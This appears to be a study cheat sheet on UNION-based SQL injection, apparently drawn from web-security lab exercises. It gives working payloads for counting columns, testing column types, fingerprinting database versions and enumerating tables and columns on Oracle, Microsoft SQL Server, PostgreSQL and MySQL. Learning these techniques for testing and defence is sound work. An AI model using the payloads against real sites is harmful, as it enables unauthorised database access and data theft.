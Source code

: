 # SQL Injection

### How to check column in table query

Injecting a series of ORDER BY clauses and incrementing the specified column index until an error occurs.
```
' ORDER BY 1 -- 
' ORDER BY 2 --
' ORDER BY 3 --
```

### Finding columns with a useful data type

Having already determined the number of required columns, you can probe each column to test whether it can 
hold string data by submitting a series of UNION SELECT payloads that place a string value into each column in turn.
```
' UNION SELECT ‘a’,NULL,NULL,NULL --
' UNION SELECT NULL,’a’,NULL,NULL -- 
' UNION SELECT NULL,NULL,’a’,NULL --
' UNION SELECT NULL,NULL,NULL,’a’ --
```

## Database version
### You can query the database to determine its type and version. This information is useful when formulating more complicated attacks.

- Oracle: 	`SELECT banner FROM v$version` or `SELECT version FROM v$instance`
  > Example: `' UNION SELECT banner,NULL FROM v$version--`
- Microsoft: 	`SELECT @@version`
- PostgreSQL: 	`SELECT version()` 
  > Example: `'+UNION+SELECT+version()+,NULL--`
- MySQL: 	`SELECT @@version`

## Database contents
### You can list the tables that exist in the database, and the columns that those tables contain.

- Oracle
  - `SELECT * FROM all_tables`
    > Example: `' UNION SELECT TABLE_NAME,NULL FROM all_tables--`
    >> *table_name* is a sql_identifier that displays the name(s) of the table(s)
  - `SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'`
    > Example: `' UNION SELECT COLUMN_NAME,NULL FROM all_tab_columns WHERE table_name = 'USERS_QQGUCL'--`
    >> *column_name* is a	sql_identifier that displays the name(s) of the column(s) under a specified table 
- Microsoft	
  - `SELECT * FROM information_schema.tables`
  - `SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'`
- PostgreSQL	
  - `SELECT * FROM information_schema.tables`
    > Example: `' UNION SELECT table_name,NULL FROM information_schema.tables--` 
    >> *table_name* is a sql_identifier that displays the name(s) of the table(s)
  - `SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'` 
    > Example: `' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name = 'users_jrcoia'--`
    >> *column_name* is a	sql_identifier that displays the name(s) of the column(s) under a specified table 
- MySQL	
  - `SELECT * FROM information_schema.tables`
  - `SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'`

